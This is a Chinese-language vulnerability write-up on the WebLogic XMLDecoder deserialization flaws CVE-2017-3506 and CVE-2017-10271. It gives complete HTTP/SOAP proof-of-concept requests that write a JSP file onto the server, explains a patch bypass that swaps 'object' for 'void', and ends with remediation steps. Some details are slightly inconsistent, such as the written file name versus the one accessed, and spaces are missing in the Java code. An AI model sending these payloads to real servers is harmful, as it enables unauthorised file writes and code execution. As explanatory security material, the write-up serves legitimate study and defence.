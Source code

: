 ## XMLDecoder 反序列化漏洞（CVE-2017-10271 & CVE-2017-3506）

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

访问 /wls-wsat/CoordinatorPortType
返回如下页面，则可能存在此漏洞。
![cve-2017-10271-01](./pic/cve-2017-10271-01.png)

漏洞不仅存在于 /wls-wsat/CoordinatorPortType 。
只要是在wls-wsat包中的Uri皆受到影响，可以查看web.xml得知所有受到影响的Uri，路径为：`C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\wls-wsat\54p17w\war\WEB-INF\web.xml`

默认受到影响的Uri如下：
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

构造 写入文件 数据包发送，如下，其中`Content-Type需要等于text/xml,否则可能导致XMLDecoder不解析。`
```
POST /wls-wsat/RegistrationPortTypeRPC HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 5.2; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Content-Length: 629

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java>
    	<object class="java.io.PrintWriter">  
        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test33.jsp</string>
    	<void method="println">
		<string>
    			<![CDATA[
			<% out.print("test777776666666"); %>
    			]]>
    		</string>
    	</void>
    	<void method="close"/>
    	</object>
    </java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 `/bea_wls_internal/test2.jsp`,如下：
![cve-2017-10271-02](./pic/cve-2017-10271-02.png)

不熟悉JAVA的小伙伴们可能会对这个构造的XML有所疑惑，可以参考下这篇[文章](https://docs.oracle.com/javase/tutorial/javabeans/advanced/longpersistence.html)。

CVE-2017-3506的补丁加了验证函数，补丁在weblogic/wsee/workarea/WorkContextXmlInputAdapter.java中添加了validate方法, 验证Payload中的节点是否存在object Tag。
```
private void validate(InputStream is){
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser =factory.newSAXParser();
         parser.parse(is, newDefaultHandler() {
            public void startElement(String uri, StringlocalName, String qName, Attributes attributes)throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch(ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXExceptionvar6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOExceptionvar7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```
我们将object换成void就可绕过此补丁，产生了CVE-2017-10271。
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java>
    	<void class="java.io.PrintWriter">
        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test33.jsp</string>
    	<void method="println">
		<string>
    			<![CDATA[
			<% out.print("test777776666666"); %>
    			]]>
    		</string>
    	</void>
    	<void method="close"/>
    	</void>
    </java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 修复建议
1）安装补丁。
2）或删除wls-wsat组件，再次访问返回404.
```
1.删除C:\Oracle\Middleware\wlserver_10.3\server\lib\wls-wsat.war

2.删除C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\.internal\wls-wsat.war

3.删除C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\wls-wsat

4.重启Weblogic
```
![cve-2017-10271-03](./pic/cve-2017-10271-03.png)
Note：wls-wsat.war属于一级应用包，对其进行移除或更名操作可能造成未知的后果，Oracle官方不建议对其进行此类操作。
